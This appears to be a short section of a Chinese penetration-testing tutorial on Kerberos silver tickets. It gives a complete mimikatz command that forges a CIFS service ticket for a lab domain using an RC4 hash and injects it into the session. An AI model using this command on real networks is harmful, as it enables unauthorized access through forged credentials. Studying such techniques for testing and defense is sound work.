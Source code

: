 ```yaml
---
title: "5.2.2 白银票据的利用"
id: zhfly3435
---
```


### 5.2.2 白银票据的利用

在黄金票据中我们可以不指定 target 和 service，但是在白银票据中必须指定 target 和 service

```
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4:22eec3fbe7191bdcf1e5819f8bdcd951 /user:aaa /ptt" 
```

![image](../img/aa50b1ed0898ae35ca88d2c452787a9d.png)

![image](../img/3b2b93a6bdecab12f41aec1e69c696bb.png)